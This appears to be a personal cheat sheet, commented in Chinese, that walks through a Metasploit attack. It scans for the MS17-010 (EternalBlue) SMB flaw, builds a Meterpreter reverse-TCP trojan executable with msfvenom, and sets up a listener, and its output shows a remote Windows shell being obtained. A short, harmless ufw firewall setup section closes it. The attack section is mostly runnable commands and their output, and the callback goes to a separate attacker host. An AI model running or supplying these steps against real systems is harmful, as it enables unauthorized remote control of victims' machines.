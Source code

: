 # msfconsole

- msfconsole 

- search ms17_010 

\#永恒之蓝漏洞模板 

- use auxiliary/scanner/smb/smb_ms17_010 

show options 

- set rhosts 192.168.140.129 

\#扫描目标IP是否存在此漏洞 

- msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.26.197.13 LPORT=12345 -f exe > win2012.exe 

\#生成一个win2012.exe的木马文件，反向连接到kali主机 

- use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp 

\#开启端口监听 

- set payload windows/meterpreter_reverse_tcp 

\#设置payload反弹 

show options 

\#设置参数 

- set LHOST 172.26.197.13 

LHOST => 172.26.197.13 

- set LPORT 12345 

LPORT => 12345 

\#设置反向连接IP（kali）和端口 

- run 

[*] Started reverse TCP handler on 172.26.197.13:12345 

[*] Meterpreter session 1 opened (172.26.197.13:12345 -> 172.26.192.1:2177) at 2023-12-11 23:23:41 +0800 

\#开始监听 

- shell 

Process 2016 created. 

Channel 2 created. 

Microsoft Windows [�汾 6.1.7601] 

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ���� 

\#获取权限 

- use exploit/windows/smb/ms17_010_eternalblue 

show options 

# ufw

- apt update 
- apt -y install ufw 

\#install ufw 

- ufw enable 

\#turn on ufw 

- ufw allow 80 

\#open port 80 

- ufw status 

\#check the port open 